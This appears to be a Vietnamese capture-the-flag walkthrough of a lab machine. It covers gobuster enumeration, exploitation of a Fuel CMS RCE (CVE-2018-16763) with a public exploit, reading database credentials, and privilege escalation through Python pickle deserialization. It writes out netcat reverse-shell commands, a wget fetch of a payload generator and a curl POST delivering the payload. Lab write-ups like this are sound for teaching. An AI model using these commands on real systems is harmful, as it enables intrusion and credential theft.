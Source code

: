 ## Step 1
Dùng **netdiscover -r 10.0.2.0/24** để dò ip của victim

![image](https://user-images.githubusercontent.com/97771705/222623213-96b7c935-f64e-456b-886f-9848fee3f4eb.png)

IP là *10.0.2.5*

Quét port ra 4 port, trong đó có 1 port mysql 

![image](https://user-images.githubusercontent.com/97771705/223318597-503e6337-d3a5-4494-90b9-c779ee69317a.png)

![image](https://user-images.githubusercontent.com/97771705/223318808-c6786e72-4619-48f4-a1ba-4e6f5cc147db.png)

## Step 
Tìm path ẩn bằng gobuster

>gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.0.2.5 -x html,php,txt

```
Gobuster là một công cụ dò tìm thư mục và tệp tin trên các ứng dụng web. Nó hoạt động bằng cách gửi các yêu cầu HTTP tới các URL cụ thể, sau đó phân tích và hiển thị kết quả trả về từ máy chủ web. Gobuster hỗ trợ các phương thức HTTP như GET, POST, HEAD, OPTIONS, PUT, DELETE và CONNECT.
```

Tìm thấy 1 trang structure

![image](https://user-images.githubusercontent.com/97771705/223321109-040f3e01-6879-4f94-afb1-8f21e7253c1d.png)

Truy cập vào trang

![image](https://user-images.githubusercontent.com/97771705/223320795-03127848-e07d-4bea-bd9f-4fb081411f6e.png)

Ta tiếp tục tìm path ẩn của structure

> gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.0.2.5/structure -x html,php,txt

Phát hiện khá nhiều trang hay ho

![image](https://user-images.githubusercontent.com/97771705/223322168-14894230-8eed-4539-8fc5-1567cfc46739.png)

![image](https://user-images.githubusercontent.com/97771705/223321296-4e30fd1a-7e26-44c9-9146-4637662c0ae1.png)

![image](https://user-images.githubusercontent.com/97771705/223321412-efb75479-44be-49e9-85de-c8e00fb1eb09.png)

Trang /fuel mặc định là /fuel/start ->có vẻ như lại cần gobuster :)

> gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.0.2.5/structure -x html,php,txt

Trang index.php chuyển hướng sang start

![image](https://user-images.githubusercontent.com/97771705/223322704-44a5ab48-433a-499b-92f2-1d471019b544.png)

Thử thay url bằng /index.php/fuel 

![image](https://user-images.githubusercontent.com/97771705/223323114-ac21dfa1-9395-4f2c-99a2-5dbd381c6337.png)

Tìm kiếm trên Google, phát hiện Fuel CMS có lỗ hổng RCE tại những phiên bản cũ. Một trong những code khai thác:

https://github.com/padsalatushal/CVE-2018-16763

Git clone code trên trang github trên về máy kali

![image](https://user-images.githubusercontent.com/97771705/223417730-70b91543-6dd8-416a-b789-594e6db99a61.png)

Nhập command reverse shell: tạo ra một kết nối từ victim machine đến attacker machine, thông qua đó attacker có thể kiểm soát và thực thi các lệnh trên victim machine. Khi thực hiện được kết nối này, attacker có thể truy cập vào các tài nguyên và dữ liệu trên victim machine, và có thể thực hiện các hành động như cài đặt phần mềm độc hại, lấy mật khẩu và tạo backdoor để giữ lâu dài quyền kiểm soát truy cập vào victim machine.

>nc 10.0.2.5 4444 /bin/bash

Sau đó đọc thông tin trong database.php

> cat /var/www/html/structure/fuel//config/database.php 

![image](https://user-images.githubusercontent.com/97771705/223422171-a6f74ea1-4bf9-464f-b325-dfbc4dd7b45e.png)

Ta đã có username và password, trở về máy phineas -> đăng nhập thành công

![image](https://user-images.githubusercontent.com/97771705/223422669-fa400788-e058-4df1-b0a1-84fb2ea8bd1b.png)

Hoặc dùng cách ssh cho pro :)

![image](https://user-images.githubusercontent.com/97771705/223422976-1e9f8cb9-08a4-4f94-92a9-7d74e86b6349.png)

![image](https://user-images.githubusercontent.com/97771705/223601249-a9ecd891-e0ba-410b-b8e9-838176fea35c.png)

Tìm kiếm loanh quanh các thư mục -> nhận được flag đầu tiên

![image](https://user-images.githubusercontent.com/97771705/223423539-fb08405f-35fd-4012-a371-6f0a2f6ef8cd.png)

## Step 3

Đến lúc leo thang đặc quyền r :) 

Trong số các folder khởi đầu của máy Phineas, chỉ có duy nhất /web là không có viết hoa. Mở ra có 1 file python

![image](https://user-images.githubusercontent.com/97771705/223424243-49792b4c-cfe5-46b6-acd5-a51bca3f77d9.png)

Có thể thấy nó bị dính lỗi Insecure Deserialization

Dùng lệnh **ip a** để tìm kiếm ip của máy phineas khi ta ssh trên kali ->10.0.2.6

Command exploit: tại terminal root kali

>wget https://gist.githubusercontent.com/kriss-u/085569495cb930e398759c0cbf45e3b7/raw/15fe119ed307ac69673bcaadd9fab84c32a85a00/pickle-payload-py3.py

>python3 pickle-payload-py3.py "nc 10.0.2.6 4444 -e /bin/bash"

>nc -nlvp 4444

Tại terminal ssh phineas 

>curl -d "awesome=Ket_qua_tai_cau_lenh_python_tren" -X POST http://127.0.0.1:5000/heaven

Quay về terminal root kali

![image](https://user-images.githubusercontent.com/97771705/223911610-5bafd821-956c-492d-b454-0379404ad454.png)



